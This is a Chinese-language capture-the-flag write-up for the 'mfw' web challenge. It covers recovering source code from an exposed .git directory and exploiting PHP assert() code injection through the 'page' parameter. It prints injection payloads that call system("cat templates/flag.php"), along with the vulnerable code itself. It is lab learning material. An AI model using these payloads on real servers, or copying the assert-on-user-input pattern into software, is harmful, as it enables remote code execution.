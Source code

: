 # mfw

## 解题思路

- 首先进入页面，看到一个像模像样的网页，直接找/.git/

- 发现居然直接能打开，然而里面没有什么能用的东西。

- 但是既然可以打开/.git，那说明可以用githack抓下来看一下项目里面有什么。

- 运行githack，只能抓到 `/.git/` 这个目录，但是查看其他人的writeup发现他们可以直接把跟 `/.git` 同级的其它文件全部抓下来，看来我的githack出了问题。

- 经过一番仔细琢磨，重新安了一台Linux虚拟机，给虚拟机配了python和git，重新下载了一遍 GitHack ，发现成功了！

    果然是因为环境不对啊！

- 运行 GitHack 之后，成功拿到了目标代码，分别是一个叫 `template` 的文件夹 和 一个叫 `index.php` 的php脚本。

    `template` 里有个叫 `flag.php` 的文件，但里面是空的。

    `index.php` 里的非页面布局代码如下：

    ```php
    <?php

    if (isset($_GET['page'])) {
        $page = $_GET['page'];
    } else {
        $page = "home";
    }

    $file = "templates/" . $page . ".php";

    // I heard '..' is dangerous!
    assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

    // TODO: Make this look nice
    assert("file_exists('$file')") or die("That file doesn't exist!");

    ?>

    ...

    <!--<li 
    <?php 
    if ($page == "flag") { ?>class="active"<?php } 
    ?>><a href="?page=flag">My secrets</a></li> -->

    ```

    后面就是一些页面布局加载脚本了。

    看得出来，它的逻辑是：获取用户的 `get` 请求值，并填入 `file` 里，跳转执行对应页面的php脚本,并且 “flag” 就存在名为 `templates/flag.php` 的文件里。

- 首先，尝试直接构造url： `.../?page=flag` ，发现不行，

    这里就用到了一个新的命令执行漏洞： `assert()` ：检查一个语句是否为false。

    - `assert()` 语句会直接将 **字符串** 类型的输入当作php语句进行执行，这意味着如果传入程序代码，那么这些输入也会被忠实执行，这对于渗透工作有着巨大的作用。

    - 本题中的用法有两种，一种是直接把连接运算符 `.` 后面的部分注释掉，让服务器以为执行语句到中途就终止；另一种是把攻击者的代码作为参数以字符串的形式传给服务器。

    - 针对第一种方法，我们可以构造如下payload：

        ```php
        page='').system("cat templates/flag.php");//'

        $file = "templates/" . '').system("cat templates/flag.php");//' . ".php";

        $file = 'templates/').system("cat templates/flag.php");//.php'

        assert("strpos('templates/').system("cat templates/flag.php");//.php', '..') === false") or die("Detected hacking attempt!");
        ```

        可以看到， `assert()` 先执行了 **判断字符串中有无目标** ，之后又执行了 `system("cat templates/flag.php")` ,在执行完返回结果后才进行断言，而这时已经晚了（尽管断言的判断也没能阻止语句运行）。

    - 第二种方法有一个问题我想不明白，看网上有人构造了如下payload：

        ```php

        page='.system("cat templates/flag.php").'

        $file = "templates/" . '.system("cat templates/flag.php").' . ".php";

        $file = 'templates/.system("cat templates/flag.php")..php'

        ```

        问题在于 `file` 变量中出现了 `..` 这一符号，为什么strpos没有把它拿出来呢？

        而且我试了一下，如果 `page=.` ，则会返回 `Detected hacking attempt!` ,而 `page='.'` 则不会，这到底是为什么呢？明天解决一下。

- 问题：为什们payload按第二种方法可以成功呢？